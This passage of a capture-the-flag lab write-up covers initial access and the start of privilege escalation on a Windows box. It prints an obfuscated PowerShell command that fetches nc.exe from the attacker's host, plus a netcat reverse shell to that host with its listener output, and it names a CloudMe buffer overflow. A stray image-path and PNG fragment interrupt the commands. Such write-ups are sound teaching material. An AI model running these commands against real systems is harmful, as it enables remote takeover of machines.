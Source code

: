 ```shell
C:\xampp\htdocs\gym\upload> powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AbgBjAC4AZQB4AGUAIgAsACIAYwA6AFwAeABhAG0AcABwAFwAaAB0AGQAbwBjAHMAXABnAHkAbQBcAHUAcABsAG8AYQBkAFwAbgBjAC4AZQB4AGUAIgApAAoA
 �PNG
 C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.2 4444 -e cmd.exe
```

```shell
┌──[matt@parrot]─[~/htb]
└──╼$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.198] 49678
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\xampp\htdocs\gym\upload>dir
dir
Volume in drive C has no label.
Volume Serial Number is A22D-49F7
Directory of C:\xampp\htdocs\gym\upload
27/09/2020 19:08 <DIR> .
27/09/2020 19:08 <DIR> ..
27/09/2020 19:09 8,347,648 chisel.exe
27/09/2020 19:04 53 kamehameha.php
27/09/2020 19:08 59,392 nc.exe
3 File(s) 8,407,093 bytes
2 Dir(s) 7,398,076,416 bytes free
C:\xampp\htdocs\gym\upload>
```

From there, I grabbed the user flag and began the next phase: privilege escalation.

# Privilege Escalation

Internal enumeration ended up being unusually simple. I was just poking around manually when I came across a client binary for CloudMe, a cloud-based file storage service. The particular version of this client, 1.11.2, was susceptible to a buffer overflow attack that would result in code execution. I ran `netstat` and checked to see if port 8888 was open, and sure enough it was.

```shell
c:\Users\shaun\Downloads>dir
dir
Volume in drive C has no label.
Volume Serial Number is A22D-49F7
Directory of c:\Users\shaun\Downloads
14/07/2020 13:27 <DIR> .
14/07/2020 13:27 <DIR> ..
16/06/2020 16:26 17,830,824 CloudMe_1112.exe
1 File(s) 17,830,824 bytes
2 Dir(s) 7,428,366,336 bytes free
```
